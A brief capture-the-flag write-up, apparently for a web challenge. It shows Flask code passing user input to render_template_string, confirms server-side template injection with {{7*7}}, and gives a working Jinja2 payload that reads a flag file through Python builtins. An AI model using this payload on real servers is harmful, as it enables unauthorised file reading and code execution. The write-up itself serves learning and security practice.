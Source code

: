 This code is vulnerable to user-supplied malicious payloads

```python
user_input = request.form.get('user_input')
        try:
            result = render_template_string(user_input)
```

{{7*7}} verifies that the code is vulnerable to template injection as it returns 49, which means that the server is processing the inputted template



Sending the payload: ```{{ self.__init__.__globals__.__builtins__.open('flag').read() }}``` will return the flag as it reads the flag file defined in the supplied source code files.